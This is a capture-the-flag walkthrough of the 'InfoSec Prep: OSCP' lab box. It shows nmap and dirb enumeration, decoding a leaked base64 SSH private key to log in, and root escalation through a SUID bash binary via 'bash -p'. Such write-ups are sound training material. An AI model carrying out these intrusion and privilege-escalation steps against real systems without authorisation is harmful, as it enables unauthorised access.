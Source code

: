 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/infosec-prep-oscp,508/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# discovery

Performing a simple `nmap` scan to identify the attack surface of the target.

## portscan
```bash
$ nmap -Pn -p- -sV 192.168.59.89
```
- 22 (OpenSSH)
- 80 (Apache)
- 33060 (unrecognized)

## website
Performing a simple dir busting on the target

```bash
$ dirb http://192.168.59.89`
```

`Wordpress` seems to be installed on the web server.

> Additionally `dirb` was able to identify the files `robots.txt` and `secret.txt`
{: .prompt-info}

- `robots.txt`: contains the path `/secret.txt`
- `secret.txt`: contains a `base64` blob

---

# exploitation
## preparing
### save the `base64` blob and decode it
```bash
$ base64 -d blob.base64
```

> The decoding reveals that it is an `ssh` private key!
{: .prompt-info}

### generate the public key out of the private key to get the `username`
```bash
ssh-keygen -f ssh.priv -y > ssh.pub
```

> `username` is `oscp`
{: .prompt-info}

## getting a shell and access the first flag
```bash
$ ssh -i ssh.priv oscp@192.168.59.89
bash-5.0$ cat local.txt
*******************************
```

---

# post exploitation
## privilege escalation
Identifiy `SUID` binaries owned by `root`
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwsr-sr-x 1 root root 1183448 Feb 25  2020 /usr/bin/bash
...
```

The website [gtfobins](https://gtfobins.github.io/gtfobins/bash/#suid) reveals that the binary `bash` can be exploited to gain `root` access.

```bash
-bash-5.0$ /usr/bin/bash -p
bash-5.0# whoami
root
```

> Root!
{: .prompt-info}

## get second flag
```bash
bash-5.0# cd /root/
bash-5.0# ls
fix-wordpress  flag.txt  proof.txt  snap
bash-5.0# cat flag.txt 
Your flag is in another file...
bash-5.0# cat proof.txt 
1******************************8
```

Pwned! <@:-)
